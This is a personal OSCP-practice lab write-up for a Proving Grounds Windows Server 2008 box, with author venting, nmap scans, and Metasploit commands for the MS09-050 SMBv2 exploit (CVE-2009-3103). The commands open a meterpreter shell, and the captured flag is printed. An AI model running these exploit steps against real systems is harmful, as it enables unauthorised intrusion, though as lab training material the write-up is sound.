 ```yaml
---
Date: 2024-10-23
Course: "[[OSCP]]"
Platform: PG-Practice
Category: Windows
Difficulty: Easy
Status: In progress
IP: 192.168.240.45
Writeup: https://systemweakness.com/internal-oscp-offensive-security-proving-grounds-practice-easy-9d9152adddc0
---
```

# Internal
These Windows boxes are getting more and more frustrating. This one I had four separate walkthroughs available and 5 different exploits I could run, and in the end I had to resort to Metasploit to catch a meterpreter shell. Even the Meterpreter shell was a pain in the ass - once I was in I knew I could navigate directly to the Administrator's desktop, but I had to type in each directory change one-by-one rather than going directly to the proof file.

At the moment this is all feeling very fucking frustrating, but I also know that this is a relatively small part of the actual exam - the likelihood that more than one of the stand-alone boxes will be Windows is very low, there's no doubt I'm doing well with Linux, and I know I'm fairly comfortable with AD. 

I've shown myself to be able to do this stuff, so for now just keep trying to break boxes and not lose your cool over how dumb all of this makes you feel - not because you are dumb, but because a whole of of this shit simply doesn't work properly, and you're still trying to figure it all out properly without trying to do it with one hand tied behind your back fixing shit. The temptation to create a whole new VM is very real at the moment, especially if it's from a completely fresh Kali image.

Having to revert the boxes so regularly is really doing my head in too - they absolutely should not be this unstable, but there doesn't seem to be any real way around it. For now I just have to keep working away on this stuff, learn whatever I can from each box (especially by taking these notes), and hope that things will improve later... or I can pass the exam based on the Linux and AD elements, and avoid this unstable Windows bullshit if I can.

# Resolution summary
- Ran Nmap to identify ports `53`,`135`, `139`, `445`, `3389` & `49152-8`
- Identified ports `139` & `445` as running `SMBv2`
- Identified vulnerable SMB version, ran `msfconsole`
- Setup `ms09_050_smb2_negotiate_func_index` exploit and received meterpreter shell
- Navigated to `C:\Users\Administrator\Desktop` and printed `proof.txt`
## Improved skills
- Windows service enumeration
- Testing and running exploits
## Used tools
- nmap
- python
- msfconsole

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Internal.nmap 192.168.240.45 -v
```

Enumerated open TCP ports:
```bash
PORT      STATE SERVICE            VERSION
53/tcp    open  domain             Microsoft DNS 6.0.6001 (17714650) (Windows Server 2008 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.0.6001 (17714650)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: INTERNAL
|   NetBIOS_Domain_Name: INTERNAL
|   NetBIOS_Computer_Name: INTERNAL
|   DNS_Domain_Name: internal
|   DNS_Computer_Name: internal
|   Product_Version: 6.0.6001
|_  System_Time: 2024-10-23T09:13:15+00:00
|_ssl-date: 2024-10-23T09:13:23+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=internal
| Issuer: commonName=internal
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-08-02T05:18:19
| Not valid after:  2025-02-01T05:18:19
| MD5:   8860:d793:b9ff:62cc:c9c9:8f28:43e0:8b12
|_SHA-1: 45e7:58e2:89db:45a3:1879:41ee:6d4c:6497:fe01:d1d8
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: INTERNAL; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008::sp1, cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2

Host script results:
| smb-os-discovery: 
|   OS: Windows Server (R) 2008 Standard 6001 Service Pack 1 (Windows Server (R) 2008 Standard 6.0)
|   OS CPE: cpe:/o:microsoft:windows_server_2008::sp1
|   Computer name: internal
|   NetBIOS computer name: INTERNAL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-10-23T02:13:15-07:00
| smb2-time: 
|   date: 2024-10-23T09:13:15
|_  start_date: 2024-08-03T05:18:18
| nbstat: NetBIOS name: INTERNAL, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:ab:5d:14 (VMware)
| Names:
|   INTERNAL<00>         Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|_  INTERNAL<20>         Flags: <unique><active>
|_clock-skew: mean: 1h24m00s, deviation: 3h07m49s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required
```
---
# Enumeration
## Port 53 - Domain (Microsoft DNS 6.0.6001)
No enumeration conducted
## Port 135 - MSRPC (Windows RPC)
No enumeration conducted
## Port 139 & 445 - SMB (Windows Netbios-SSN)
- Ran `sudo nmap --script smb-vuln* -p 139,445 192.168.240.45` to identify vulnerabilities in SMB, identified `SMBv2 exploit` (CVE-2009-3103)
![[Cybersecurity-Resources/images/Pasted image 20241023201127.png]]
## Port 3389 - SSL (MS WBT Server)
No enumeration conducted
## Port 5357 - HTTP (Microsoft HTTPAPI/2.0)
No enumeration conducted
## Ports 49152-8 - MSRPC (Windows RPC)
No enumeration conducted

---
# Exploitation
- Used `msfconsole` and identified `exploit/windows/smb/ms09_050_smb2_negotiate_func_index` as potential exploit for CVE-2009-3103. 
- Ran the following `msfconsole` commands to setup and run exploit before receiving meterpreter shell
```
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
set RHOSTS 192.168.242.40
set LHOST 192.168.45.199
run
```
![[Cybersecurity-Resources/images/Pasted image 20241024175717.png]]
- Navigated `C:\Users\Administrator\Desktop\` and ran `cat proof.txt` to print `7ff8cdacb8d95f599362f06e5ce14394`

---
# Trophy & Loot
`proof.txt` = `7ff8cdacb8d95f599362f06e5ce14394`